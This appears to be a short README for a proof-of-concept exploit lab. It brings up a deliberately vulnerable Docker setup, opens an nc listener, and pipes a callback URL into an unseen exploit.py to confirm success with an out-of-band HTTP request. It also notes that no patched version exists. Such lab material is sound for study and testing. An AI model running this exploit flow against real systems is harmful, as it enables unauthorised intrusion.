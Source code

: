 # vulnerble version setup

```bash
docker compose -f docker-compose-vulnerable.yml up
```
Run the exploit by specifying a URL that will receive the callback. For example, you can host a temporary server with:

```
nc -klnv <port>
```

Then, run the exploit with:

```
echo "https://<callback-host>:<port>" | python3 exploit.py
```
you'll receive a http request on port 1337 which means the exploit worked.

# safe version setup

there is no patched version
